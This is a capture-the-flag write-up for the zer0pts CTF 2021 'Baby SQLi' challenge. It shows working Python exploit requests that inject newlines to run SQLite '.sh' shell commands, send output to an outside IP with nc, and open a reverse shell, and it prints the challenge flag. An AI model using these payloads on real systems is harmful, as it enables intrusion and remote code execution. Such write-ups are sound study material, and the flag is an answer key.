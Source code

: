 ```yaml
---
layout: post
title: "zer0pts CTF 2021 Baby SQLi Write Up"
date: 2021-03-08 23:29:53
description: This article is about write-up for the zer0pts CTF 2021. there is only one web challenge, which contain SQL Injection bug
imgurl: https://pbs.twimg.com/profile_images/1354743965132574720/pDGgg-dl_400x400.png
excerpt: TR;DL > SQL Injection
---
```

### (Web) Baby SQLi [170 pts]

> Baby SQLi challenge is bypass of waf and using shell command.

First, You can using `.system/.shell/.sh` command and execute shell command in SQLite3

```
// SQLite3 CLI
sqlite> .sh id|nc 141.164.52.207 2

// Terminal
root@py:~# nc -lp 2
uid=0(root) gid=0(root) groups=0(root)
```
As above, you can see in sqlite3 executes a shell command using the `.sh` command.

```python
def sqlite3_query(sql):
    p = subprocess.Popen(['sqlite3', 'database.db'],
                         stdin=subprocess.PIPE,
                         stdout=subprocess.PIPE,
                         stderr=subprocess.PIPE)
    o, e = p.communicate(sql.encode())
    if e:
        raise Exception(e)
    result = []
    for row in o.decode().split('\n'):
        if row == '': break
        result.append(tuple(row.split('|')))
    return result
```
Looking at the source code, you can line jump using the `\n` character because using the `communicate()` in `subporcess.Popen()` in `sqlite3_query()`.

```python
@app.route('/login', methods=['post'])
def auth():
    username = flask.request.form.get('username', default='', type=str)
    password = flask.request.form.get('password', default='', type=str)
    if len(username) > 32 or len(password) > 32:
        flask.session['msg'] = 'Too long username or password'
        return flask.redirect(flask.url_for('home'))

    password_hash = hashlib.sha256(password.encode()).hexdigest()
    result = None
    try:
        result = sqlite3_query(
            'SELECT * FROM users WHERE username="{}" AND password="{}";'
            .format(sqlite3_escape(username), password_hash)
        )
    except:
        pass

    if result:
        flask.session['name'] = username
    else:
        flask.session['msg'] = 'Invalid Credential'
    return flask.redirect(flask.url_for('home'))
```
And looking at the source code in login logic, you can see that `username`/`password` value is input, the length is verified, and it is put in query statement and at this point, you can see that the `username` value is escaped. but, you don't worry because treats escape characters as simple string is sqlite3.

```
SELECT * FROM users where username = "\" or 1=1 -- " and password = "pocas";
```
In other words, It doensn't matter if it escaped as above.

```
SELECT * FROM users where username = "\";
.sh id|nc 141.164.52.207 2;
and password = "pocas";
```
So, you can use shell command by doing line jumps as above and using the .sh command.

```python
import requests

url = "http://web.ctf.zer0pts.com:8004"
username = '";\n.sh id|nc 2376348879 2\n'
data = {"username": username, "password": "pocas"}
requests.post(url+"/login", data)
```
```
root@py:~# nc -lp 2
uid=1000(app) gid=1000(app)
root@py:~#
```
If you write the exploit code as above, close `SELECT` statemnt and in the line immediately underneath execute `.sh` command.

```python
import requests

url = "http://web.ctf.zer0pts.com:8004"
username = '";\n.sh nc 2376348879 2 -e sh\n'
data = {"username": username, "password": "pocas"}
requests.post(url+"/login", data)
```
```
root@py:~# nc -lvnp 2
Listening on 0.0.0.0 2
Connection received on 165.227.180.221 38761
id
uid=1000(app) gid=1000(app)
cat templates/index.html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
        <title>Welcome</title>
    </head>

    <body>
        <h1>Welcome, {{name}}!</h1>
        {% if name == 'admin' %}
        <p>zer0pts{w0w_d1d_u_cr4ck_SHA256_0f_my_p4$$w0rd?}</p>
        {% else %}
        <p>No flag for you :(</p>
        {% endif %}
    </body>
</html>
```
Final, I pass the shell using `e` option about `nc` and read `index.html` and saw the flag.

```plaintext
FLAG : zer0pts{w0w_d1d_u_cr4ck_SHA256_0f_my_p4$$w0rd?}
```
